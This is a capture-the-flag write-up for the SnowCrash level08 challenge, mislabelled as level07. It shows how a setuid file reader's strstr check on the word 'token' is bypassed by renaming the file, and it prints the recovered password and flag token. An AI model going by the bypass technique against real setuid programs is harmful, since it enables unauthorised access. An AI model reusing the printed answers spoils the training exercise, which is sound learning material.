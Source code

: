 # level07

We found a executable with extended permissions(ACL) and a file "token".

```
level08@SnowCrash:~$ ls -la
total 28
dr-xr-x---+ 1 level08 level08  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
-r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-r-x------  1 level08 level08  675 Apr  3  2012 .profile
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```
The Access Control Lists (ACLs) allow you to set different permissions for one or more users/ groups on a file/ directory.

First thing we try to execute it:

```
level08@SnowCrash:~$ ./level08 
./level08 [file to read]
level08@SnowCrash:~$ ./level08 token 
You may not access 'token'
```
we therefore looked into the rights of the files:

```

level08@SnowCrash:~$ getfacl level08 token
# file: level08
# owner: flag08
# group: level08
# flags: ss-
user::rwx
group::---
group:level08:r-x
group:flag08:r-x
mask::r-x
other::---

# file: token
# owner: flag08
# group: flag08
user::rw-
group::---
other::---

```

```

level08@SnowCrash:~$ ltrace ./level08 /token
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("/token", "token")                                    = "token"
printf("You may not access '%s'\n", "/token"You may not access '/token'
)                = 28
exit(1 <unfinished ...>
+++ exited (status 1) +++

```


So the token file read with flag08 rights. The executable allows you to read a file with flag08 rights, unless it contains the word `token`. As we have the necessary rights we change the file name.


```
mv ./token ./notoken
./level08 ./notoken
```

```
level08@SnowCrash:~$ ./level08 ./notoken
quif5eloekouj29ke0vouxean
```

```
level08@SnowCrash:~$ su flag08
Password: 
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
Weheee one last token to go!!!
